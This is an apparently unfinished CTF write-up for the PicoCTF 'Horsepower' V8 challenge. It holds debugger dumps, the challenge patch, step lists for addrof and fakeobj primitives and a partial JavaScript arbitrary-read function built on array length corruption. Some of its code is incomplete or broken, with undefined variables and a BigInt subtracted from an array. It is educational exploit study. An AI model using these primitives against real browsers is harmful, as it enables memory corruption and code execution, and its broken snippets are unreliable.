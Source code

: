 # PicoCTF Horsepower ~340p

Lets just create an array

```text
d8> var a = [1.1, 1.2]
undefined
```

Lets inspect it

```text
d8> %DebugPrint(a)
DebugPrint: 0x9ab08084ed9: [JSArray]
- map: 0x09ab081c39f1 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
- prototype: 0x09ab0818ab61 <JSArray[0]>
- elements: 0x09ab08084ec1 <FixedDoubleArray[2]> [PACKED_DOUBLE_ELEMENTS]
- length: 2
- properties: 0x09ab0804222d <FixedArray[0]>
- All own properties (excluding elements): {
  0x9ab080446d1: [String] in ReadOnlySpace: #length: 0x09ab0810215d <AccessorInfo> (const accessor descriptor), location: descriptor
}
- elements: 0x09ab08084ec1 <FixedDoubleArray[2]> {
         0: 1.1
         1: 1.2
}
0x9ab081c39f1: [Map]
- type: JS_ARRAY_TYPE
- instance size: 16
- inobject properties: 0
- elements kind: PACKED_DOUBLE_ELEMENTS
- unused property fields: 0
- enum length: invalid
- back pointer: 0x09ab081c39c9 <Map(HOLEY_SMI_ELEMENTS)>
- prototype_validity cell: 0x09ab08102405 <Cell value= 1>
- instance descriptors #1: 0x09ab0818b031 <DescriptorArray[1]>
- transitions #1: 0x09ab0818b07d <TransitionArray[4]>Transition array #1:
   0x09ab08044fd5 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x09ab081c3a19 <Map(HOLEY_DOUBLE_ELEMENTS)>

- prototype: 0x09ab0818ab61 <JSArray[0]>
- constructor: 0x09ab0818a8f1 <JSFunction Array (sfi = 0x9ab0810ac31)>
- dependent code: 0x09ab080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
- construction counter: 0

[1.1, 1.2]
```

The patch provided with the challenge adds a builtin function to arrays,
this function requires a parameter that is used to change .legth

```text
d8> a.setHorsepower()
Improper attempt to set horsepower
[1.1, 1.2]
d8> a.setHorsepower(1)
[1.1]
d8> console.log(a)
1.1
```

As we've seen, this effectively changes .length. a's address is 0x9ab08084ed9.
Remove -1 because of pointer tagging

We can confirm what %DebugPrint()

Map: 0x0804222d081c39f1
Elements: 0x000000c808084ec1

```text
(gdb) x/4gx 0x9ab08084ed9-1
0x9ab08084ed8:	0x0804222d081c39f1	0x000000c808084ec1
0x9ab08084ee8:	0x6393ddae080425a9	0x7566280a00000adc
```

This is the elements array. Being an array, it has its own map at address:
0x0000000408042a99 pointer compression. There is a register that contain
the base address for *every* heap object utilised (0x09ab08xxxxxx). This
area is the lowest memory address in the engine.

```text
(gdb) x/4gx 0x09ab08084ec1-1
0x9ab08084ec0:	0x0000000408042a99	0x3ff199999999999a
0x9ab08084ed0:	0x3ff3333333333333	0x0804222d081c39f1
(gdb)
```

The addresses look as follow

  0x0000000408042a99: elements' array Map
  0x3ff199999999999a: 1.1
  0x3ff3333333333333: 1.2
  0x0804222d081c39f1: a's Map address

The challenge is pretty straightforward, we'll just skip the patch and focus
on the relevant part. For clarity, we can inspect the memory and see the
elements array being allocated before `a`

```text
(gdb) x/8gx 0x1b8e08084ed9-1
0x1b8e08084ed8: 0x0000000408042a99      0x3ff199999999999a
0x1b8e08084ee8: 0x3ff3333333333333  |-- 0x0804222d081c39f1
0x1b8e08084ef8: 0x0000000408084ed9      0x8b5af746080425a9
0x1b8e08084f08: 0x7566280a00000adc --|  0x29286e6f6974636e
(gdb) x/4gx 0x1b8e08084ef1-1
0x1b8e08084ef0: 0x0804222d081c39f1      0x0000000408084ed9
0x1b8e08084f00: 0x8b5af746080425a9      0x7566280a00000adc
```

```text
+++ b/src/objects/js-array.tq
@@ -28,6 +28,9 @@ extern class JSArray extends JSObject {
   macro IsEmpty(): bool {
     return this.length == 0;
   }
+  macro SetLength(l: Smi) {
+    this.length = l;
+  }
   length: Number;
 }
```

We can arbitrarly overflow any array. Given this, we just have to overwrite
a's Map with an array of our own and proceed in getting code execution

%DebugPrint(a) returns:

```text
[...]
0x1b8e081c39f1: [Map]
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - back pointer: 0x1b8e081c39c9 <Map(HOLEY_SMI_ELEMENTS)>
 - prototype_validity cell: 0x1b8e08102405 <Cell value= 1>
 - instance descriptors #1: 0x1b8e0818b031 <DescriptorArray[1]>
 - transitions #1: 0x1b8e0818b07d <TransitionArray[4]>Transition array #1:
     0x1b8e08044fd5 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x1b8e081c3a19 <Map(HOLEY_DOUBLE_ELEMENTS)>

 - prototype: 0x1b8e0818ab61 <JSArray[0]>
 - constructor: 0x1b8e0818a8f1 <JSFunction Array (sfi = 0x1b8e0810ac31)>
 - dependent code: 0x1b8e080421b9 <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```


Lets inspect a's Map memory

```text
(gdb) x/8gx 0x1b8e081c39f1-1
0x1b8e081c39f0: 0x1604040408042119      0x0a0007ff2100043d
0x1b8e081c3a00: 0x081c39c90818ab61      0x080421b90818b031
0x1b8e081c3a10: 0x0818b07d08102405      0x1604040408042119
0x1b8e081c3a20: 0x0a0007ff2900043d      0x081c39f10818ab61
```


### addrof

a primitive that lets us get the memory address of an object as float value

---

1. get a float array's Map
2. get a obj array's Map
3. place an obj in the obj array
    a. obj array now has a memory address at idx = 0
4. swap the two Maps
5. now obj array treats value at idx = 0 as a float number. As such objArr[0]
   returns a float value and not an obj
6. swap back the two Maps
7. return the obj

### fakeobj

a primitive that lets us write the memory address of a non-existent ("fake") object as float value

---



1. get a float array's Map
2. get a obj array's Map
3. write a float in the float array
    a. float array now has a float value at idx = 0
4. swap the two Maps
5. now float array treats value at idx = 0 as a memory address. As such floatArr[0]
   returns an obj and not a float value
6. swap back the two Maps
7. return the obj (which return the memory contents pointed to by the provided address)


### Building arbitrary R/W 

# TODO

- implement functions to convert from integer to float
  - int must use the entire 64 bit space
- implement functions to print as hex values

### Read

Create an array that will be later disguised as a Map for the array in which we will effectively read from and write to

```javascript
function _read(addr) {
  let a = [1.1, 1.2, 1.3, 1.4]
  a.setHorsepower(5)
  let floatMap = a[5]

  let fakeArray = [floatMap, fakeOutOfLine, fakeElementsPtr, fakeProp]

  // get the memory address of fakeArray and read its memory as if it were an object and return a pointer to it
  let ptrFakeArray = fakeObj(addrOf(fakeArray - 0x20n))

  // now go back to fakeArray and change its elements pointer to the memory address
  // to be read (0xffffffff is a random value
  fakeArray[2] = addr

  // now read the value by accessing the object as if it were an array and thus treating its values as floats and
  // not as memory addresses
  return ptrFakeArray[0]
}
```

### Write



Past the end of element's arrays in v8 there's the Map address of the object 
they refer to. Why is that the case ? I can't seem to find anything about it


